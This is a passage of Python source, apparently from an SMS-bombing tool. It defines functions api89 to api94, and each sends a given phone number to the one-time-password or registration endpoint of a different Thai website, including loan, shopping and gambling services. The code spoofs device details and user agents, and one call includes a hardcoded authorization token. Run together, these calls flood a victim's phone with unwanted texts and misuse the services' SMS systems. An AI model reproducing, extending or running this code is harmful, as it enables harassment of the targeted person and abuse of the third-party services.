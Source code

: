 


def api89(phone): # QCLOUD

    post("https://api.cashmarket-th.com/app/userinfo/send/smsCode", json={"baseParams":{"platformId":"android","deviceType":"h5","deviceIdKh":"20220118121149smyjjs57jxtqbwkuu74y0vd6p5yzhrmp86872f73364d46d3bf9446ddd583ef61ee8fafe504bab46ec267ca96a99281d6rreqhrlgsg4p3srgv1i5s4pp8u9la6gf1","termSysVersion":"5.1.1","termModel":"A37f","brand":"","termId":"null","appType":"6","appVersion":"2.0.0","pValue":"","position":{"lon":"null","lat":"null"},"bizType":"0000","appName":"Cash Market","packageName":"com.cashmarketth.h5","screenResolution":"720,1280"},"clientTypeFlag":"h5","token":"","phoneNumber":"","timestamp":"1642479101529","bizParams":{"phoneNum": phone,"code":"null","type":200,"channelCode":"hJ071"}})

    

def api90(phone):

    post("https://shopgenix.com/api/sms/otp/",headers=header,data=f"mobile_country_id=1&mobile={phone}")

    

# SME-GP

def api91(phone):

    post("https://api.thaisme.one/smegp/register/request-otp",json={"MOBILE":phone})

    



#YOUROTP

def api92(phone):

    post("https://apiv3.slot999ss.com/front/api/register/set/OTP",data=f"phone={phone}",headers={"content-type": "application/x-www-form-urlencoded;charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    



#Sabuy-Ebuy

def api93(phone):

    post("https://sabuyebuy.com/wp-json/api/v1/get-otp",headers=header,json={"msisdn":f"{phone}"})

    



#FAST-PLUS.

def api94(phone):

    post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", data={"tel":phone,"otp_type":"register"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","authorization": "Basic 755b4608e637d413d668502704d93e377f4f67b2d3d0f50e5644af3607f31ddb3174ecaf5b2c40c86f9efc32de1ee0bbf3e7a2b32cb055a3cb7068e1bb152844"})
